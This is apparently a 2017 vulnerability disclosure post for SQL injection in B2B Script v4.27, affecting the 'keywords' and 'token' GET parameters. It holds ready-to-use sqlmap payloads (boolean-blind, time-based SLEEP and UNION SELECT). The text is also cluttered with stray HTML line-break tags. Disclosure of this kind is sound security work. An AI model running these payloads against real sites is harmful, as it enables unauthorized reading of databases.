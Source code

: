 <BR>---
<BR>layout: post
<BR>title: B2B Script v4.27 - SQL Injection - 18.01.2017
<BR>---
<BR>
<BR>An attacker can exploit this vulnerability to read from the database. The parameters 'keywords' and 'token' are vulnerable.
<BR>
<BR># Vulnerability: B2B Script v4.27 - SQL Injection
<BR># Date: 18.01.2017
<BR># Software link: http://itechscripts.com/b2b-script/
<BR># Demo: http://b2b.itechscripts.com
<BR># Price: 199$
<BR># Category: webapps
<BR># Exploit Author: Dawid Morawski
<BR># Website: http://www.morawskiweb.pl
<BR># Contact: dawidmorawski1990@gmail.com
<BR>#######################################
<BR>
<BR>1. Description
<BR>An attacker can exploit this vulnerability to read from the database.
<BR>
<BR>2. SQL Injection / Proof of Concept:
<BR>
<BR>http://localhost/[PATH]/search.php?keywords=[SQL]
<BR>SQLmap outout:
<BR>
<BR>Parameter: keywords (GET)
 <BR>   Type: boolean-based blind
    <BR>Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
   <BR> Payload: keywords=-7908') OR 3641=3641#
<BR>
    <BR>Type: UNION query
    <BR>Title: MySQL UNION query (NULL) - 2 columns
    <BR>Payload: keywords=Products') UNION ALL SELECT <BR>NULL,CONCAT(0x716b7a7871,0x68634473486965586e6b57754358736b487a43564c6963646e556549454e476177776a5a6a7a4c4c,0x71767a7a71)#
<BR>---
<BR>[INFO] testing MySQL
 <BR>[INFO] confirming MySQL
 <BR>[INFO] the back-end DBMS is MySQL
<BR><
BR>#########################################
<BR>
<BR>
<BR>http://localhost/[PATH]/catcompany.php?token=[SQL]
<br>SQLmap outout:
<br>
<br>Parameter: token (GET)
    <br>Type: boolean-based blind
    <br>Title: AND boolean-based blind - WHERE or HAVING clause
  <br>  Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND 9125=9125 AND 'HhOm'='HhOm
<br>
  <br>  Type: AND/OR time-based blind
  <br>  Title: MySQL >= 5.0.12 AND time-based blind
  <br>  Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND SLEEP(5) AND 'dWKJ'='dWKJ
<br>
  <br>  Type: UNION query
  <br>  Title: Generic UNION query (NULL) - 6 columns
  <br>  Payload: token=-7417' UNION ALL SELECT <br>NULL,CONCAT(0x7171707071,0x6a6c6d484f58726e48446167417a66756464445941464844416856527a634a704f4b79647a494654,0x716b786271),NUL<br>L,NULL,NULL,NULL-- aNXq


